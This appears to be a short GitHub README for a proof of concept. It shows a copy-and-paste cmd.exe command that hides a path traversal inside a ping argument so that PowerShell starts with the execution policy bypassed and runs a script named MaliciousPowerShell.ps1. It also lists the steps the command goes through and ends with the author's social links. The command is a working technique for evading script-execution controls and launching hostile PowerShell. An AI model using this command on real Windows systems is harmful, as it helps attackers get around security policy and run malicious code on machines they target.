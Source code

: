 # Cmdexerelativepathpoc
PowerShell script execution via cmd.exe relative path
This was in Hackaday article:
https://hackaday.com/2020/06/12/this-week-in-security-crosstalk-tls-resumption-and-brave-shenanigans/

This can be run from Windows 10 run copy and paste code
cmd.exe /c "ping 127.0.0.1/../../../../../../../Windows/system32/WindowsPowerShell/v1.0/powershell.exe" -ExecutionPolicy bypass -file c:\temp\MaliciousPowerShell.ps1

Path and file of PowerShell script are variables you can change
c:\temp\MaliciousPowerShell.ps1

cmd.exe will 
1. load a DOS prompt
2. cancel the ping command 
3. Run PowerShell with the Execution Policy in bypass mode
4. Load a PowerShell Script and execute

## Connect with me at

<a href="https://twitter.com/HMInfoSecViking?ref_src=twsrc%5Etfw"><IMG SRC="https://github.com/bvoris/bvoris/blob/master/twitter.jpg" WIDTH=10% HEIGHT=10% ALIGN=LEFT></a>

<a href="https://www.linkedin.com/in/brad-voris" target="_blank"><IMG SRC="https://github.com/bvoris/bvoris/blob/master/linkedin.png" WIDTH=10% HEIGHT=4% ALIGN=RIGHT></a>

<BR /><BR />
<BR /><BR />

<A HREF="https://www.victimoftechnology.com">Victim Of Technology<A />
<BR /><BR />
<A HREF="https://www.cyberforgesecurity.com">Cyber Forge Security, Inc.<A />
<BR /><BR />
